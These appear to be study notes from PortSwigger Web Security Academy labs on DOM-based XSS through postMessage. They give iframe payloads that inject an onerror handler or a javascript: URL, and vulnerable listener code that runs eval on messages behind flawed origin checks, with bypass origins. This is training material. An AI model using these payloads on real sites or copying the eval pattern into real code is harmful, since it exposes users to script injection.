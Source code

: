 The function `addEventListener()` that listen for message for `ads`. 
![[file-20250803161256007.png]]
```html
<iframe src="https://0a740024031f55b780bbf34f00db0022.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```
Store and deliver the exploit. 
> When the `iframe` loads, the `postMessage()` method sends a web message to the home page. The event listener, which is intended to serve ads, takes the content of the web message and inserts it into the `div` with the ID `ads`. However, in this case it inserts our `img` tag, which contains an invalid `src` attribute. This throws an error, which causes the `onerror` event handler to execute our payload.

### Lab: DOM XSS using web messages and a JavaScript URL
![[file-20250803162257857.png]]
```html
<iframe src="https://0acf00f0042b4965809bb289003e000f.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```
>This script sends a web message containing an arbitrary JavaScript payload, along with the string `"http:"`. The second argument specifies that any `targetOrigin` is allowed for the web message.

>When the `iframe` loads, the `postMessage()` method sends the JavaScript payload to the main page. The event listener spots the `"http:"` string and proceeds to send the payload to the `location.href` sink, where the `print()` function is called.

## Origin Verification
Even if an event listener does include some form of origin verification, this verification step can sometimes be fundamentally flawed. For example, consider the following code:

```html
window.addEventListener('message', function(e) {
	if (e.origin.indexOf('normal-website.com') > -1) { 
		eval(e.data); 
	}
});
```

The `indexOf` method is used to try and verify that the origin of the incoming message is the `normal-website.com` domain. However, in practice, it only checks whether the string `"normal-website.com"` is contained anywhere in the origin URL. As a result, an attacker could easily bypass this verification step if the origin of their malicious message was **`http://www.normal-website.com.evil.net`**, for example.
The same flaw also applies to verification checks that rely on the `startsWith()` or `endsWith()` methods. For example, the following event listener would regard the origin **`http://www.malicious-websitenormal-website.com`** as safe:
```html
window.addEventListener('message', function(e) { 
	if (e.origin.endsWith('normal-website.com')) { 
		eval(e.data); 
	} 
});
```
### Lab: DOM XSS using web messages and `JSON.parse`
![[file-20250803170000155.png]]
```html
<iframe src=https://0ae500df03702317806f717400a500f6.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```
Escaping the special characters in JSON.
```JSON
{
\"type\":\"load-channel\",
\"url\":\"javascript:print()\"
```